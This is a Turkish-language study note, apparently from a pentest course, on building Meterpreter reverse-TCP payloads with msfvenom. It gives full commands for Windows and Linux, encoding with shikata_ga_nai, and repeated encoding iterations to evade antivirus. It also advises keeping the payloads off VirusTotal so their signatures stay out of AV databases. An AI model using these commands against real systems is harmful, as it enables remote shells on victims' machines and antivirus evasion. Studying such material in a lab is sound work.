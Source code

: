 

---
## ENCODE ZAMANI -e eklenecek sadece

### -e x86/shikata_ga_nai bu eklenecek
##### msfvenom  -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1234 <span style="background:#d4b106"> -e x86/shikata_ga_nai</span>  -f exe > payload-encode.exe 

### -a ile architecture belirtmezsem heryerde çalışsın diye msfvenom x86 olarak bunu üretir.

![[Pasted image 20240227160141.png]]

### Şimdi burada şuna dikkat edeceğiz #iterations 1 olarak belirtmiş msfvenom. Yani Biz istediğimiz kadar buna iteration yaptırabiliriz. 
## -i 10 ekleyeceğiz
## Ne kadar çok iteration yapabilirsek AV'ye yakalanma riski o kafdar azalır.

### msfvenom  -p windows/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1234 -i 10  -e x86/shikata_ga_nai -f exe > payload-encode-iteration.exe 
![[Pasted image 20240227160652.png]]

![[Pasted image 20240227160731.png]]

---

## Linux 
### msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=4444 -i 10 -e x86/shikata_ga_nai -f elf > shell64-iteration.elf

![[Pasted image 20240227161020.png]]

![[Pasted image 20240227161439.png]]
### normal standart aldık

---

### Bunları Virus TOTAL'da denemeyin çünkü bu sefer signature'lar kaydediliyor ve bütün AV database'e giriyor. PENTEST'de kullanmazsın.
## Bunlar ancak Sandbox system kurulur ve onun içinde denenebilir.
---

---
